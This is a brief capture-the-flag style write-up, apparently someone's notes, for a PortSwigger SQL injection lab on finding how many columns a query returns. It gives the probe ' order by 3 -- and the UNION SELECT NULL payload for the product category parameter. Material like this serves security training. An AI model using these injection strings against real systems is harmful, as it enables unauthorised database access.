

//  platform - portswigger
## target -> Lab: SQL injection UNION attack, determining the number of columns returned by the query

**Where is vuln: in product category**

**Goal SQL injection UNION attack that returns an additional row containing null values.**

### analysis
#### check how many columns in there
- ' order by 3 --  `three columns`

### exploitation
- ' UNION SELECT NULL,NULL,NULL --

#### steps:
1. acess the lab.
2. check any product and check columns
3. now exploit
4. than lab solve 
